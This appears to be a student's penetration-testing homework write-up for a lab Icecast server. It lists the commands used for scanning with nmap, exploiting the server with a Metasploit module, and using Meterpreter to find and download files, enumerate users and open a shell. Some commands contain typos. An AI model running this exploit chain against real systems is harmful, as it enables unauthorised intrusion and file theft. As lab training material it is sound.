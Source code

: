 
# Rob Myers: Week 17 Homework: Penetration Testing 2

This week I was given access the Icecast server, a free  software for streaming multimedia. 

For a full review of the findings here is a copy of the after action report:

### [Icecast Report](Report.pdf)

Below is commands and exploits used to demonstrate vulnerabilities on the Icecast Server: 

## Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


1. Perform a service and version scan using Nmap to determine which services are up and running:

    * Run the Nmap command that performs a service and version scan against the target.

        ### Answer: **nmap -sS -sV -O -Pn 192.168.0.20**

   ### [nmap-Pictures](IMAGE/OS.md) 
        

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

    * Run the SearchSploit commands to show available Icecast exploits.

       ### Answer: **searchsploit Icecast**

    ### [Searchsploit Pictures](IMAGE/search.md)


3. Now that we know which exploits are available to us, let's start Metasploit:

    * Run the command that starts Metasploit:

        ### Answer: **msfconsole**

    ### [Starting metasploit Pictures](IMAGE/meta1.md) 

4. Search for the Icecast module and load it for use.

    * Run the command to search for the Icecast module:

        ### Answer: **search Icecast**

     ### [Search Icecast Pictures](IMAGE/meta.md) 

    * Run the command to use the Icecast module:

        ### Answer: **use 0** 

    ### [Use the Icecast Module Picture](IMAGE/meta2.md)     

5. Set the RHOST to the target machine.

    * Run the command that sets the RHOST:

       ### Answer: **set RHOSTS 192.168.0.20** 

     ### [Set the RHOSTS Picture](IMAGE/meta3.md)  

6. Run the Icecast exploit.

    * Run the command that runs the Icecast exploit.

    ### Answer: **RUN**

    ### [Running the Exploit Picture](IMAGE/meta4.md) 

    * Run the command that performs a search for the secretfile.txt on the target.

    ### Answer: **search -f * secretfile * .txt**

    ### [Searching for Secretfile.txt Picture](IMAGE/meta5.md)  

7. You should now have a Meterpreter session open.

    * Run the command to perform a search for the recipe.txt on the target:

    ### Answer: **search -f * recipe * .txt**

    ### [Searching for recipe Picture](IMAGE/meta6.md) 

    * Run the command that exfiltrates the recipe*.txt file:

    ### Answer: **download c/Users/IEUsers/Documents/Drinks.recipe.txt**


    ### [Exfiltrates command for recipe.txt](IMAGE/meta7.md) 

    ### [Common Meterpreter Commands](IMAGE/meta8.md) 


8. You can also use Meterpreter's local exploit suggester to find possible exploits.

    * Run the command to use Meterpreters's local exploit suggester 

    ### [Meterpreter Explit Suggester](IMAGE/meta9.md)  

    ### Answer: **run post/multi/recon/local_explit_suggester

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Bonus

A. Run a Meterpreter post script that enumerates all logged on users.

### Answer: **run post/windows/gather/enum_logged_on_users** 

### [View ALL logged on Users](IMAGE/meta10.md)  


B. Open a Meterpreter shell.

### Answer: **shell** 

### [Document the Shell Command](IMAGE/meta11.md) 

C. Run the command that displays the target's computer system information:

### Answer: **sysinfo** 

### [sysinfo information](IMAGE/meta11.md)










    
